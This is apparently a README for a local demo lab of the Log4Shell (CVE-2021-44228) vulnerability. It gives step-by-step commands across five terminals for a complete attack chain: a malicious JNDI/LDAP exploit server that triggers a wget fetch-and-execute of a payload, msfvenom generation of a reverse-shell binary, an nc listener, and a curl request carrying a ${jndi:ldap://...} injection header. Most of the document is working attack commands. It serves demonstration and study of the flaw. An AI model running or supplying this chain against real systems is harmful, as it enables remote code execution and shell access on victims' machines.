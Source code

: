 # Explanation of Log4Shell Attack
https://securityboulevard.com/2021/12/log4shell-jndi-injection-via-attackable-log4j/

# log4j km-demo

[https://www.reposhub.com/java/web-frameworks/twseptian-Spring-Boot-Log4j-CVE-2021-44228-Docker-Lab.html](https://www.reposhub.com/java/web-frameworks/twseptian-Spring-Boot-Log4j-CVE-2021-44228-Docker-Lab.html)

- ensure that JDK 11 and Maven are installed prior to this

**clone:**

```bash
# steps to checkout
$ git clone https://github.com/kontainapp/km-demo.git
$ cd km-demo

$ git submodule update --init --recursive
$ git fetch origin

$ git checkout -t origin/sm/demo_log4jshell

# 1-liner
# git clone https://github.com/kontainapp/km-demo.git && cd km-demo && git submodule update --init --recursive && git fetch origin && git checkout -t origin/sm/demo_log4jshell
```

### **Build**

```bash
# build
$ cd km-demo/log4j/
$ make demo
```

### **Terminal 1 (Malicious LDAP server):**

```bash
# T1 - Malicious LDAP Server triggers "wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf"
$ cd km-demo/log4j/JNDI-Exploit-Kit/

# run with docker
$ docker run --network=host --rm log4jshell/jndi_exploit_kit**

OR

$ cd scripts
$ ./t1LdapJNDIExploit.sh

OR

# java jar based run - but could be jdk version issue
$ java -jar ./target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf"
...
... wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
...
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
**rmi://10.100.101.100:1099/7p5qra
ldap://10.100.101.100:1389/7p5qra

```

### **Terminal 2 (Victim)**:

the vulnerable log4j application

```bash
# T2 - Spring Boot Application Victim that contains a logging line that logs the header with the malicious LDAP string
# runs "java -jar ./target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar" in docker for ease of use
cd km-demo/log4j/
docker run --rm --network=host vulnerable-app
...

OR

# map /tmp to docker else it cant start as it gives error saying can't writeto /tmp
docker run --rm --runtime=krun --network=host -v /tmp:/tmp log4jshell/vulnerable-app-kontain

OR

OR RUN with:
$ ./t2-vulnerable-app.sh
```

### Terminal 3

We use metasploit framework to create the dial back code and HTTP host on port 8081. The command line to create it is:

dial back (`rev.elf`) server (Terminal 3)

```bash

# T3 - Malware server that contains exploits like creating a reverse shell to hackers computer
$ cd km-demo/log4j/

$ cat msfvenom.sh
docker run --name=msfvenom log4jshell/msfvenom
docker cp msfvenom:/tmp/rev.elf /tmp/rev.elf
cd /tmp
python3 -m http.server 8082

$ sh ./msfvenom.sh

OR (without docker)

cd dev/kontain/km-demo/log4j/
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
cd /tmp/
python3 -m http.server 8082

OR

$ ./t3msfvenom.sh
```

### Terminal 4

ncat receiving dialback

```bash
# T4 - Reverse Shell Listening Server
nc -l 4444
nc -lvnp 4444

OR

./t4nc.sh
```

### Terminal 5

Attacking curl command

Again there is no special code, we just use curl with the LDAP end point from above encoded:

```bash
# T5 - Attack curl command with malicious LDAP string in header for victim to log
curl 127.0.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1:1389/xqinla}'

# to see
$ cat t5attackcurl.sh
```
